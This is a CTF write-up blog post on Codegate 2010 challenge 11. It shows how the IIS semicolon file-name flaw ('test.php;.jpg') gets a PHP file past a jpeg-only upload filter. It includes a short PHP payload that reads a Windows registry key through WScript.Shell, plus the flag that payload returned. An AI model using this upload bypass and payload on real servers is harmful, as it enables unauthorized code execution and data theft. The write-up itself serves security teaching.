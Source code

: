 ```yaml
---
title: Codegate 2010 Challenge 11 writeup
author: hieu le
layout: post

aktt_notify_twitter:
  - no
tweetbackscheck:
  - 1408358982
shorturls:
  - 'a:4:{s:9:"permalink";s:69:"http://www.vnsecurity.net/2010/03/codegate-2010-challenge-11-writeup/";s:7:"tinyurl";s:26:"http://tinyurl.com/y95rqv8";s:4:"isgd";s:18:"http://is.gd/aOuhl";s:5:"bitly";s:20:"http://bit.ly/aCd8li";}'
twittercomments:
  - 'a:2:{i:10694573292;s:7:"retweet";i:10669504654;s:7:"retweet";}'
tweetcount:
  - 2
category:
  - 'CTF - CLGT Crew'
tags:
  - '2010'
  - CLGT
  - codegate
  - Cryptography
  - CTF
  - IIS
  - PHP
  - semi-colon vulnerability
---
```

<h2 id="Summary" style="font-family: Georgia, 'Bitstream Vera Serif', 'New York', Palatino, serif;font-weight: normal;letter-spacing: -0.018em;font-size: 20px;clear: none;color: #366d9c;border-bottom-width: 1px;border-bottom-style: solid;border-bottom-color: #ffdb4c;margin: 0px">
  Summary<a title="Link to this section" href="#Summary"></a>
</h2>

[<span> </span>http://ctf6.codegate.org/31337_/index.html][1]

Get a value of HKLMSoftwarecodegate2010, it&#8217;s the flag.

<h2 id="Analysis" style="font-family: Georgia, 'Bitstream Vera Serif', 'New York', Palatino, serif;font-weight: normal;letter-spacing: -0.018em;font-size: 20px;clear: none;color: #366d9c;border-bottom-width: 1px;border-bottom-style: solid;border-bottom-color: #ffdb4c;margin: 0px">
  Analysis<a title="Link to this section" href="#Analysis"></a>
</h2>

At first when accessing the url, it shows up a page allow you to upload a jpeg image and only .jpg files. As I noticed, it serves by IIS. Suddenly, I remember of the vulnerability of IIS in processing image files. A little bit google show me the result. Ah ha, let&#8217;s test it by uploading a php file likes &#8220;test.php;.jpg&#8221;. Incredible!

<p style="text-indent: 0.5em">
  Now, the only thing we have to do is writing some lines of php to read the REG key.
</p>

<pre style="background-color: #f7f7f7;margin-top: 1em;margin-right: 1.75em;margin-bottom: 1em;margin-left: 1.75em;padding: 0.25em;border: 1px solid #d7d7d7">regprint.php;.jpg
&lt;?
$shell = new COM("WScript.Shell") or die("Requires Windows Scripting Host");
$devenvpath=$shell-&gt;RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\codegate2010");
echo $devenvpath
?&gt;</pre>

Then, execute it by [<span> </span>http://ctf6.codegate.org/31337_/upload/regprint.php;.jpg][2]

<p style="text-indent: 0.5em">
  <tt>LollerSkaterz_From_RoflCopters_With_Guinness</tt>
</p>

<p style="text-indent: 0.5em">
  Easy game with 1200 point.
</p>

<h2 id="Vulnerability" style="font-family: Georgia, 'Bitstream Vera Serif', 'New York', Palatino, serif;font-weight: normal;letter-spacing: -0.018em;font-size: 20px;clear: none;color: #366d9c;border-bottom-width: 1px;border-bottom-style: solid;border-bottom-color: #ffdb4c;margin: 0px">
  Vulnerability<a title="Link to this section" href="#Vulnerability"></a>
</h2>

In facts, after the game thaidn said that it&#8217;s a fault of deploying the challenge, it&#8217;s designed to be passed by a 0-day of core php.

<h2 id="References" style="font-family: Georgia, 'Bitstream Vera Serif', 'New York', Palatino, serif;font-weight: normal;letter-spacing: -0.018em;font-size: 20px;clear: none;color: #366d9c;border-bottom-width: 1px;border-bottom-style: solid;border-bottom-color: #ffdb4c;margin: 0px">
  References<a title="Link to this section" href="#References"></a>
</h2>

*   [<span> </span>http://soroush.secproject.com/blog/2009/12/microsoft-iis-semi-colon-vulnerability/][3]
*   Keywords: IIS, semi-colon vulnerability

 [1]: http://ctf6.codegate.org/31337_/index.html
 [2]: http://ctf6.codegate.org/31337_/upload/regprint.php;.jpg
 [3]: http://soroush.secproject.com/blog/2009/12/microsoft-iis-semi-colon-vulnerability/
